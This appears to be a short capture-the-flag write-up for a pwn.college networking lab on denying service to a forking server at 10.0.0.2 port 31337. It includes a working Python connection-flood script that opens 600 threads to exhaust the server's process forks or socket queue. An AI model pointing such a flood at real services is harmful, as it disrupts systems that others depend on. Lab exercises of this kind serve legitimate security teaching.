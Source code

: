 ```yaml
---
tags: ["Computer Networking"]
title: "Denied of Service 3"
description: Denied of Service 3
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

The client at 10.0.0.3 is communicating with the server at 10.0.0.2 on port 31337. Deny this service.

This time the server forks a new process for each client connection, and limits each session to 1 second.

# Solution

1. know we dont have capability to craft and a TCP reset packet

```python
user_host.interactive(preexec_fn=lambda: limit_capabilities(0), environ=parent_process.environ())
```

2. Try to exhaust the server’s forks or socket queue

```python
import socket
import time
import threading

def spam():
    while True:
        try:
            s = socket.create_connection(("10.0.0.2", 31337), timeout=2)
            time.sleep(1.2) # close the connection after the socket is terminated by the server
            s.close()
        except:
            pass

for _ in range(600):  # tweak based on system capacity
    threading.Thread(target=spam, daemon=True).start()

time.sleep(120)  # let it run long enough to disrupt
```
